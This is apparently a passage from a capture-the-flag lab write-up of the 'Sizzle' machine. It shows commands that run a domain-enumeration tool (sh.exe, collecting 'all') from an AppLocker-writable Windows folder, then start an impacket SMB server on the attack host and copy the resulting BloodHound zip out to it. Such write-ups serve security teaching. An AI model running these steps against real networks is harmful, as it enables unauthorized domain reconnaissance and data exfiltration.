 ```powershell
# move to a writeable directory
cd C:\Windows\Registration\CRMLog
# copy the executable
copy ~/sh.exe .
# execute the file
.\sh.exe -c all
# list the files
ls
```

<figure><img src="../../../.gitbook/assets/sizzle_sh_temp.png" alt=""><figcaption><p>Figure 23: Moving to a writeable folder in order to execute the binary.</p></figcaption></figure>

Next, we need to transfer the `zip` file to our attack host. We will do that using SMB (Figure 24).

{% tabs %}
{% tab title="1. SMB Server" %}
```bash
# start an SMB server with authentication on the attack host
impacket-smbserver -smb2support share . -username test -password test
```
{% endtab %}

{% tab title="2. Connect" %}
<pre class="language-powershell"><code class="lang-powershell"><strong># connect to the SMB server from target 
</strong><strong>net use x: \\10.10.14.4\share /USER:test test
</strong></code></pre>
{% endtab %}

{% tab title="3. Transfer" %}
```powershell
# transfer the file to the SMB server
copy 20240329053814_BloodHound.zip x:\
```
{% endtab %}
{% endtabs %}
